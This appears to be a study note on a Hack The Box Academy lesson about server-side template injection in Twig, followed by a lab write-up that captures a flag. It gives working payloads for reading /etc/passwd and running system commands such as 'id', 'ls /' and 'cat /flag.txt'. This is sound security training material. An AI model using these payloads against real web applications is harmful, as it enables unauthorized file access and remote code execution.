 ```yaml
---
sticker: lucide//book-template
---
```

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```